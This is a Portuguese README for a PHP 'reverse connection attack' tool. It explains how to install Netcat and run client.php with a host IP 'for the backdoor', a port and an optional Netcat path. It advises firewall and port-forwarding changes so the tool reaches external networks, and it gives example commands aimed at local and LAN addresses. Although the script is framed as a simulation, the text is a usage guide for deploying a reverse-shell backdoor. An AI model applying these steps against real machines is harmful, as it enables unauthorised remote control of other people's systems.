 # Reverse Connection Attack
__Script criado para simular ataques de conexão reversa mundialmente conhecido, de uma forma simples e utilizando a linguagem PHP__

<br>

__Importante*: Você precisa ter o NetCat em seu pc.__

<br>

**Caso já tenha, então pule os passos a seguir. Caso não tenha, baixe: https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip. Após baixado, coloque-o nas variáveis de ambiente para poder ser acessada de qualquer lugar do sistema, caso não, diga para o script o caminho até o Netcat.**
<table>
<tr>
  <th>Comando</th>
  <th>Opções</th>
  <th>Definição</th>
</tr>
<tr>
  <td rowspan="4">php client.php</td>
</tr>
<tr>
  <td>-h ou --host</td>
  <td>Define o seu IP para a backdoor</td>
</tr>
<tr>
  <td>-p ou --port</td>
  <td>Define a porta de escuta. Se utiliza para redes externas, libere a porta no firewall e permita o Port Fowarding no seu roteador principal.</td>
</tr>
<tr>
  <td>-dir ou --directory (opcional)</td>
  <td>Define o caminho (completo) do sistema até o arquivo .exe do Netcat</td>
</tr>
</table>

<br>

**Exemplos de uso:**

<li>php client.php --host 127.0.0.1 -p 7500</li>

<li>php client.php -h 127.0.0.1 -p 8080 --directory C:\Users\(seu usuário)\Documents\netcat-win32-1.12\nc.exe</li>

<li>php client.php --host 192.168.1.40 --port 6405 -d C:/netcat/nc.exe</li>
